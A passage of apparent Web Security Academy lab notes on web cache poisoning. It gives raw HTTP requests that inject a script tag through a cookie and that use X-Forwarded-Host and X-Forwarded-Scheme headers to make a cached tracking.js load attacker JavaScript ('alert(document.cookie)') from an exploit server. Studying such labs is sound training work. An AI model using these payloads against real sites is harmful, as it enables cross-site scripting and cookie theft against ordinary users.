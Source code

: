 ```
GET / HTTP/1.1
Host: 0a7d0025040ae5e3c0a51c3b003d0088.web-security-academy.net
Cookie: session=0u2q9XAfJFr8Wyhzexw3WuuG21lTaBjG; fehost=prod-cache-03"}</script><script>alert(1)</script>
```

### Web cache poisoning with multiple headers

Poison the cache of retrieving javascript files

```
GET /resources/js/tracking.js HTTP/1.1
Host: 0ae4002b039ec80fc0b31ac900d600de.web-security-academy.net
X-Forwarded-Scheme: a
X-Forwarded-Host: exploit-0a8100b00346c86cc0001a5f01f0004b.exploit-server.net/exploit.js
```

```
HTTP/1.1 302 Found
Location: https://exploit-0a8100b00346c86cc0001a5f01f0004b.exploit-server.net/exploit.js/resources/js/tracking.js
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 0
```

Keep sending this request:

```
GET /resources/js/tracking.js HTTP/1.1
Host: 0ae4002b039ec80fc0b31ac900d600de.web-security-academy.net
X-Forwarded-Scheme: ZXZCZC
X-Forwarded-Host: exploit-0a8100b00346c86cc0001a5f01f0004b.exploit-server.net
```

```
/resources/js/tracking.js
alert(document.cookie)
```

Till your response is this:

```
HTTP/1.1 302 Found
Location: https://exploit-0a8100b00346c86cc0001a5f01f0004b.exploit-server.net/resources/js/tracking.js
Cache-Control: max-age=30
Age: 12
X-Cache: hit <- must hit
Connection: close
Content-Length: 0
```

### Targeted web cache poisoning using an unknown header
